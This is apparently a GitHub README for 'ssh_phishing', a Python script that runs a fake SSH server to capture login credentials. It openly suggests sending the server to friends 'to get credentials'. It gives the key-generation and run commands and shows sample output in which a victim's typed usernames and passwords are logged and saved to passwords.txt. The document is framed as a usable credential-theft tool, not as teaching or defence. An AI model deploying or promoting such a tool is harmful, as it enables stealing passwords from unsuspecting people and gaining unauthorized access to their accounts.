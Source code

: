 # ssh_phishing

A python script that creates a dummy ssh server. Send to your friends to get credentials.

To generate a key use: `ssh-keygen -t rsa -b 4096 -C 'bre@rodri.guez' -f rsa_key`

Run with the key file and port as argument: `python3 ssh_phishing.py rsa_key 6666`

### The server
```
$ python ssh_phishing.py rsa_key 6666
Waiting for connections on port 6666...
Connection from: 127.0.0.1
Waiting for authentication...
Username: m.user
Password: my_pass
------------------------------
Username: m.user
Password: 123456
------------------------------
Username: m.user
Password: 123456
```

### The victim
```
$ ssh m.user@localhost -p 6666
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
m.user@localhost: Permission denied (password).
$
```

Output is saved to a file in the current working directory called `passwords.txt`.
